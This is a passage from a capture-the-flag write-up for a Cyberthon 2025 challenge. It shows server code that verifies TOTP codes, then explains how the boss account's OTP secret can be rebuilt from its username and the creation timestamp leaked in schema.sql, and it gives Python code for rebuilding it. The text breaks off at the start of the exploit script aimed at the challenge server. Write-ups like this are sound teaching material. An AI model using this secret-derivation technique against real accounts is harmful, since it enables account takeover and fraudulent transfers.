 ```python
            queue.append(res)  
        queue = await asyncio.gather(*queue)  
        print(queue)  
  
  
asyncio.run(main())
```
And... nothing. I had initially thought perhaps the OTP was outdated and tried the script again. Then I realized as from the name, a **One time** Password is meant to be used only once. However, testing revealed that 0 transactions succeeded and a quick search (with the help of AI) showed that pyotp was only responsible for verifying an OTP, not making sure it had already been used.  Perhaps, we should go back to the transaction handling code and review it again.
```python
...
frm = req["From"]  
to = req["To"]  
amount = int(req["Amount"])  
otp = req["Code"]  
  
with lock:  
    with open("./secure.json") as f:  
        data = json.load(f)  
  
    if frm not in data or to not in data:  
        return b"Failed"  
    frm_data = data[frm]  
    to_data = data[to]  
  
    totp = pyotp.TOTP(frm_data["secret"])  
    if not totp.verify(otp, valid_window=1):  
        return b"Failed"
...
```
Oops. As it turns out, we need the boss's OTP token, not ours. How would we know what their token was though? Checking out `schema.sql`, we see this helpful line of code
```sql
INSERT INTO user (username, password, timestamp, activated) VALUES ("big_boss", "login_disabled", "2025-02-28 15:50:24", 1);
```
How helpful! All we need to do now is to generate the secret for the boss
```python
import time, hashlib, base64  
from datetime import datetime  
  
def md5(x):  
    return base64.b32encode(hashlib.md5(x).digest()).decode()  
datetime_str = "2025-02-28 15:50:24"  
# Parse the string into a datetime object  
dt = datetime.strptime(datetime_str, "%Y-%m-%d %H:%M:%S")  
# Convert to epoch time (Unix timestamp)  
epoch_time = int(time.mktime(dt.timetuple()))  
print(f"Epoch timestamp: {epoch_time}")  
username = "big_boss"  
secret = md5((username + str(int(epoch_time))).encode())  
print(secret) #42II463B7OQ42MMLN3TGIZE5QI======
```
Now, we supply the boss's secret to pyotp and have it generate their OTP.
```python
import httpx  
import pyotp  
import asyncio  
  
url = "http://127.0.0.1:33339"  
url = "http://chals.f.cyberthon25.ctf.sg:50111"  
```